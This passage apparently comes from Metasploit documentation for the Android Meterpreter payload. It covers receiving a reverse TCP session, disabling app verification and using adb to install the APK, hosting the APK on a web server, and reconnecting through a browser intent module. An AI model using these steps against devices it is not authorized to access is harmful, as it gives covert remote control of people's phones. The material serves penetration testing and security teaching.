 ```

Back in msfconsole, you should receive a session:

```
[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] Starting the payload handler...
[*] Sending stage (62432 bytes) to 192.168.1.199
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.199:49178) at 2016-03-08 13:00:10 -0600

meterpreter > 
```

**Uploading APK to a real Android device using install_msf_apk.sh**

On the Android device, make sure to enable Developer Options. To do this:

1. Go to Settings -> About -> Software Information
2. Tap on the Build Number section a couple of times. It should unlock Developer Options.
3. Go back to the Settings page, you should see Developer Options.

Under Developer Options, make sure to:

* Enable USB debugging
* Disable Verify apps via USB
* Open a terminal, and type: ```adb devices```. On your Android device, you should see a prompt
  asking you to allow the computer for debugging, click OK on that.
* Do: ```adb devices``` again, adb should now have access.

Run the installer script like this from a terminal:

```
$ tools/exploit/install_msf_apk.sh /tmp/android.apk
```

And you should get a session.



**Uploading APK from a Web Server**

One way to upload an APK to Android without adb is by hosting it from a web server. To do this,
you must make sure to allow to trust "Unknown sources". The way to do this varies, but normally
it's something like this: Settings -> Security -> Check "Unknown Sources"

Once you have that changed, you'll need to:

1. Generate the APK payload.
2. Start a web server from the directory where the payload is: ```ruby -run -e httpd . -p 8181```
3. On your Android device, open a browser, and download the APK.
4. You should be able to find the APK from the Downloads folder, install it.
5. After installation, you will have to manually execute it.

**Reconnect Android Meterpreter from the Browser Remotely**

When you have the APK payload installed on your Android device, another trick to reconnect it is to
launch an intent from a browser. An intent is simply a term in Android development that means "an operation to be performed."

Here's how you do this:

1. In msfconsole, start a multi/handler for android/meterpreter/reverse_tcp as a background job.
2. Do: ```auxiliary/server/android_browsable_msf_launch```.
3. Set the URIPATh if needed.
```